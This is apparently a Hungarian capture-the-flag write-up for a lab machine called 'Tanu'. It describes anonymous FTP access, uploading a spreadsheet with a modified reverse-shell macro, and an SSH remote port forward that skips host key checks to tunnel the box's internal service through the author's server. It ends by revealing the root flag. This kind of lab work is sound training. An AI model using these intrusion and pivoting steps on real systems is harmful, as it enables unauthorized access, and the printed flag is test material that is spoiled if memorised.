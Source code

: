 # Tanu local

Tanu the Cat:
10.10.(1-9).11:80
10.10.(1-9).11:21


## Megoldás
Ez egy elég összetett feladat volt, több lépéssel. A weboldalon nem sok mindent találunk.
![](pic.png)

A másik porton egy FTP figyel, ahová anonymous userként be tudunk lépni:

```
> ftp 10.10.1.11
Connected to 10.10.1.11.
220 hcsc ftpd ready.
Name (10.10.1.11:encse): anonymous
331 Username ok, send password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering extended passive mode (|||53585|).
ftp: Can't connect to `10.10.1.11:53585': Connection refused
200 Active data connection established.
125 Data connection already open. Transfer starting.
-rw-r--r--   1 root     root          575 Jul 12 21:20 ftp.py
drwxr-xr-x   2 hcscftp  ftpgroup     4096 Jul 12 21:52 process_result
drwxr-xr-x   2 hcscftp  ftpgroup     4096 Jul 12 21:52 to_process
226 Transfer complete.
ftp> cd to_process
250 "/to_process" is the current directory.
ftp> ls
200 Active data connection established.
125 Data connection already open. Transfer starting.
-rw-r--r--   1 hcscftp  ftpgroup     8765 Jul 12 21:49 test2.ods
226 Transfer complete.
ftp>
```

A `test2.ods` egy OpenDocument Spreadsheet dokumentum, valójában egy zip. Ebben is lehet
makrókat futtatni, és a test2.ods-ben találunk egy előkészített reverse shell exploitot is, 
amit csak a saját címünkre kell alakítani, utána összezippeljük és visszatöltjük egy új néven:

```
put to_process/test3.ods
```

Ezzel kapunk egy reverse shellt, utána már csak ki kell olvasni a flaget egy fileból.

## Root

A gépen fut egy weboldal a 3000-es porton, de túl bonyolult a kódja ahhoz hogy csak azalapján megoldjuk. Jobb ötlet kívülről elérhetővé tenni ssh port forwarddal. Én két lépésben csináltam
közbeiktatva a szerveremet. Csináltam neki egy ideiglenes felhasználót dummy néven, hogy be tudjak lépni.

A megtört gépen egy remote port forward:
```
ssh -R 3000:127.0.0.1:3000 -o StrictHostKeyChecking=no -i dummy_rsa dummy@<IP>
```

A saját gépemen egy local:
```
ssh -L 3000:127.0.0.1:3000 dummy@<IP>
```

Most már meg tudtam nyitni a `http://localhost:3000`-t. A weboldalon egy javascript alapú remote
desktop futott, benne egy root prompttal. 

```
{HCSC};ROoTFl@G[4]!Tanu
```
